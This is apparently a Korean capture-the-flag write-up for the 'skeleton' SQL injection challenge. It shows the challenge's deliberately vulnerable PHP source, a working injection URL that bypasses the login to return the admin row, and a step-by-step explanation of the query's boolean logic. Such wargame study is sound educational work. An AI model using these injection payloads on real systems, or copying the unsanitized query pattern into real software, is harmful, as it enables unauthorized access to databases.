

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>

https://los.eagle-jump.org/skeleton_8~b.php?pw=' or id='admin' and pw='a'='a' or 'a'='a
select id from prob_skeleton where id='guest' and pw='' or id='admin' and pw='a'='a' or 'a'='a' and 1=0
조건1: 'guest' and pw='' >> 참 and 거짓 = 거짓
조건2: id='admin' and pw='a'='a' >> 참 and 참 = 참
조건3: 'a'='a' and 1=0 >> 참 and 거짓 = 거짓
조건1,2,3이 or연산자로 구분이 되어있고 조건2가 참이므로 mysql은 조건2에 맞는 db를 검색해준다.
query : select id from prob_skeleton where id='guest' and pw='' and 1=0